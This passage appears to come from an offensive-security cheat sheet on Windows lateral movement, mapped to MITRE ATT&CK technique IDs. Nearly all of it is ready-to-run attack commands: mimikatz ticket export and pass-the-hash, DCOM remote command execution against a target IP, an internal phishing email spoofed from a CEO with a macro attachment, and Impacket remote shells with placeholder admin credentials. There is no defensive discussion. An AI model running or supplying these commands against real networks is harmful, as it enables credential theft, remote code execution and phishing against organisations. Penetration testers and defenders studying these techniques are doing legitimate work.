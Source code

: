 ### 7. Pass-the-Ticket (T1550.003)
```powershell
# Export ticket
mimikatz.exe "sekurlsa::tickets /export" "exit"

# Inject ticket
mimikatz.exe "kerberos::ptt ticket.kirbi" "exit"

# Access remote system
dir \\server01\C$
```

### 8. Overpass-the-Hash (T1550.002)
```powershell
# Request TGT with NTLM hash
mimikatz.exe "sekurlsa::pth /user:admin /domain:corporate.local /ntlm:hash /run:powershell.exe" "exit"

# Use new PowerShell session with Kerberos
```

### 9. DCOM Execution (T1021.003)
```powershell
# MMC20.Application DCOM
$com = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.1.100"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe",$null,"/c calc.exe","7")

# ShellWindows DCOM
$com = [System.Activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39","192.168.1.100"))
$item = $com.Item()
$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","C:\Windows\System32",$null,0)
```

### 10. Internal Spearphishing (T1534)
```powershell
# Send phishing email from compromised account
Send-MailMessage -To "victim@corporate.local" -From "ceo@corporate.local" -Subject "Urgent: Review Document" -Body "Please review the attached document" -Attachments "malicious.docm" -SmtpServer "mail.corporate.local"
```

---

## Advanced Lateral Movement

### Impacket Suite Tools
```bash
# wmiexec - Semi-interactive shell via WMI
impacket-wmiexec DOMAIN/admin:password@192.168.1.100

# smbexec - Semi-interactive shell via SMB
impacket-smbexec DOMAIN/admin:password@192.168.1.100

# atexec - Execute command via Task Scheduler
impacket-atexec DOMAIN/admin:password@192.168.1.100 "whoami"

# dcomexec - Execute via DCOM
impacket-dcomexec DOMAIN/admin:password@192.168.1.100 "calc.exe"
```
